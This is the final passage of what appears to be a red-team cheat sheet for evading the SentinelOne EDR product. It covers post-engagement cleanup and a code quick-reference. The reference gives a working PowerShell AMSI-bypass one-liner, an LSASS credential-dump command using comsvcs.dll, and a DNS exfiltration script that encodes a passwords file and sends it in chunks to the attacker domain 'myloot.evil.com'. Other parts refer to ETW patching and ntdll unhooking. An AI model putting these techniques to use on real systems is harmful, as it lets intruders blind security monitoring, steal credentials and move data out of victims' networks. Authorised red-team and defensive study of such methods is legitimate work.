 o	Remove any persistence mechanisms you set if the engagement is ending (or if not needed anymore). That means deleting any created user accounts, services, scheduled tasks, registry keys, WMI subscriptions, etc., that you added. The goal is to leave as little trace as possible for the client or an IR team to find later, unless you’ve arranged to leave certain artifacts for learning purposes.
o	If you only disabled SentinelOne in memory (unhooked, etc.) but didn’t actually kill it, you might optionally restore what you patched. For example, re-hook ntdll by restoring the original hooked bytes (if you saved them) before you exit. If you did kill or uninstall the agent, there’s not much to do on that host – in a real scenario, an admin will notice an agent not reporting; in a red team, you might coordinate with the client to reinstall the agent after the engagement.

o	Ensure any backdoors or implants are either removed or properly communicated to the client for post-engagement cleanup.
•	Extraction: If all goals are achieved, carefully disconnect and remove any persistent access. Make sure no beacon or tool is left running that could be discovered later. Essentially, execute your exfiltration plan and then get out cleanly.
Code Snippets Quick Reference:
•	Direct Syscall (C): See the example in Section 2 for using the syscall instruction to bypass user-land API hooks.
•	API Unhook (C++): See the snippet under Userland EDR Evasion Steps for patching ntdll functions in memory to remove EDR hooks.
•	Disable ETW (C/PowerShell): Patch EtwEventWrite to immediately return (thus preventing ETW events from being sent). Refer to the code in Threat Hunting Evasion above for an example in C.
•	PowerShell AMSI Bypass: Use the one-liner:
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')::amsiInitFailed = $true
```
to disable AMSI in the current PowerShell session.
•	LSASS Dump via COM: Use the Microsoft-supported method:
```
rundll32.exe comsvcs.dll, MiniDump <LSASS_PID> dump.bin full
```
(then compress & encrypt dump.bin for safety).
•	DNS Exfil (PowerShell): Split data and exfiltrate via DNS queries:
```
$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes((Get-Content C:\loot\passwords.txt)))
$chunks = $data -split '.{50}'
foreach($chunk in $chunks){ nslookup "$chunk.myloot.evil.com" 8.8.8.8 }
```
This sends chunks of the file via DNS queries (using 8.8.8.8 as an external DNS server). On your DNS server, reconstruct the data from the query logs.

Keep this cheat sheet as a handy guide, but always adapt to the specifics of the target environment. Combine these techniques as needed, test them in a lab with SentinelOne if possible, and remain flexible – EDR bypass is not one-size-fits-all. Good hunting!
________________________________________
Sources:

Static vs behavioral detection (SentinelOne documentation)
Hell’s Gate direct syscall evasion concept
SentinelOne lateral movement detection feature
EDRSilencer blocking agent telemetry (GitHub)
EDRSandblast disabling callbacks (GitHub)
Cylance unhooking example (ired.team)
SentinelOne detecting Cobalt Strike & Brute Ratel
FIN7’s AvNeutralizer custom EDR killer tool
FIN7 AvNeutralizer “new tampering method” 
Spyboy/Terminator using vulnerable driver (SentinelOne analysis)
Killing SentinelOne processes via kernel driver
Poortry/Stonestop driver toolkit shutting down EDRs (Cybersecurity Dive)
2022 SonicWall (SentinelOne) agent vulnerability (FinCSIRT)
SentinelOne on Spyboy tool hashing (SentinelOne blog)
Using signed Python for evasion (Naksyn research)
EDRPrison/EDRSilencer disabling callbacks (GitHub)
FIN7 selling AvNeutralizer to other actors 
AvNeutralizer updates with new tampering method 